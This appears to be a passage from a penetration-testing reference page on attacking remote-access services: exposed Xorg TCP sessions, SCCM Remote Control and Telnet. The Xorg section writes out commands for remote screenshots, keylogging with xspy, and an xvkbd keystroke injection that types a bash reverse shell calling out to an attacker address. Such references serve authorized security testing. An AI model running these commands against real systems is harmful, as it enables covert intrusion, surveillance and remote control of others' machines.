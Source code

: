 ### Xorg

The Xorg Foundation create and maintain's the widely deployed X11 windowing system used in most \*nix environments. Most administrators are aware that the client-server model allows forwarding of X-sessions over SSH tunnels; however, when configured to allow TCP sessions, the X-session can be attached to remotely. The default X11 configuration was changed to disallow TCP sessions several years ago, but we still see it from time to time. If you see TCP 6000+N open, you can likely execute code on that machine or remotely log keystrokes.

**Port:** 6000+N/TCP, (or 22/TCP via SSH)

**Tools:** xspy, xwatchwin, xwd, xvkbd, ssh, MSF, xrdp.py

**Example screenshot:**

```
xwd -root -screen -silent -display 192.168.37.146:0 > screenshot.xwd
```

\
**Example keyboard injection:**

```
xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display 192.168.37.146:0 -text "/bin/bash -i > /dev/tcp/192.168.37.101/8000<&1 2>&1\r"
```

\
**Example remote keylog:**

```
xspy 192.168.1.1
```

### System Center Configuration Manager (SCCM) Remote Control

SCCM is often used in enterprise networks to handle patch deployment for workstations and servers, as well as help facilitate installation of applications to groups of managed systems. When configured through the administration console, managed systems can be configured to start a remote control service (System Center Remote Control). While it provides similar functionality to RDP, it does not leverage Terminal Services, and in certain configurations can allow full control of a remote system without alerting logged-on users to the session hijack.&#x20;

**Port:** 2701/TCP

**Tools:** [CmRcViewer.exe](https://dolosgroup.io/s/RemoteControl.zip), SCCM Admin console

Note: If you are not inclined to download a random executable from the Internet(duh), the SCCM Remote Control client can be found at _C:\Program Files (x86)\Microsoft Configuration Manager\AdminConsole\bin\i386\\_ after installing SCCM. Be warned, setting up an SCCM lab is unfathomably complicated.

### Telnet

Modern operating systems no longer leverage telnet, but we still see it on almost every pentest on embedded devices, or legacy systems. The old skool command line console access operates as a cleartext protocol and has largely been replaced by SSH.&#x20;
